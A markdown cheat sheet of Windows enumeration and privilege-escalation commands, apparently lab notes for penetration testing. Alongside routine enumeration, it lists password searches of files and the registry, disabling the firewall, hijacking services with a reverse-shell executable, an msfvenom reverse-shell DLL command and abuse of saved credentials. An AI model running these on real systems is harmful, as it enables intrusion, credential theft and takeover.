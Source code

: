# Useful Windows Enumeration Commands
## Users, Groups, Networking, Host
- `echo %USERNAME%`
- list local admins
    - `net localgroup "Administrators"`
- add a user to the administrators' group
    - `net localgroup Administrators <username> /add`
- ARP table
    - `arp -a`
- Routing table
    - route print`
- `ipconfig /all`
- listening ports
    - `netstat -an | findstr LISTENING`
- PSA: `NT AUTHORITY\INTERACTIVE` is a psuedo-group for all user that can log on to the system locally
- Get OS version
    - `ver`
- check user privs
    - `whoami /priv`
    - for service accounts, check to see if SeImpersonate / SeAssignPrimaryToken are enabled
    - “disabled” in the state column is irrelevant here. If the privilege is listed, your user has it

## Domain commands
- `net user /domain`
- `net group /domain`
- list shares
    - `net share`
- list Password Policy
    - `net accounts /domain`

## Processes/Applications/Tasks
- list remote processes/services
    - `tasklist /v /svc`
- see all scheduled tasks the user has access to
    - cmd: `schtasks /query /fo LIST /v`
    - PS: `Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

## Enumerating files & directories
- search files for passwords
    - `findstr /si password *.txt | *.xml | *.xls | *.ini`
- search files with pass in the name, or a config file
    - `dir /s *pass* == *.config`
- tree of C drive
    - `tree /F /A c:\ > tree.txt`
- search for all PDFs
    - `dir /a /s /b c:\*.pdf*`
- use accesschk to enumerate permissions of a file/dir
    -  `.\accesschk.exe /accepteula -uwdq "C:\Program Files\ Unquoted Path Service\"`

# Services
- show services 
    - `sc query state=all`
- query the configuration of a service
    - `sc qc <service-name>`
- query the current status of a service
    - `sc query <service-name>`
- modify the config option of a service
    - `sc config <service-name> <option>= <value>`
- start/stop a service
    - `net start/stop <service-name>`
- use accesschk to check user permissions on a service
    - `.\accesschk.exe /accepteula -uwcqv <user> <service-name>`
        - look for `SERVICE_CHANGE_CONFIG` and `SERVICE_START/SERVICE_STOP`

# Registry
- check a registry entry's ACL using powershell
    - `Get-Acl HKLM:\System\CurrentControlSet\Services\{service} | Format-List`
- check a registry entry's access using accesschk
    - `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\{service}` 
        - `KEY_ALL_ACCESS` means full access
- check current values in registry entry
    - `reg query HKLM\SYSTEM\CurrentControlSet\services\{service}`
    - ObjectName will tell you what privs the service runs as
- change a registry config to point to a reverse shell executable
    - `reg add HKLM\SYSTEM\CurrentControlSet\services\{service} /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` 
    - flags/values may differ, consult [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-add) for specific cases
- search registry for a password
    - `reg query HKLM /f password /t REG_SZ /s` - system
    - `reg query HKCU /f password /t REG_SZ /s` - user
- query registry for autorun programs
    - `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run `

# Other
- disable firewall
    - `netsh advfirewall set currentprofile state off`
    - `netsh advfirewall set allprofiles state off`
- DNS zone transfer
    - `nslookup, set type=any, ls -d domain > results.txt, exit`
- overwrite a service executable with a reverse shell
    - `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" `
- create a reverse shell DLL 
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f dll -o hijackme.dll`
- search for saved credentials & exploit them
    - `cmdkey /list`
    - `runas /savecred /user:{user} C:\PrivEsc\reverse.exe `

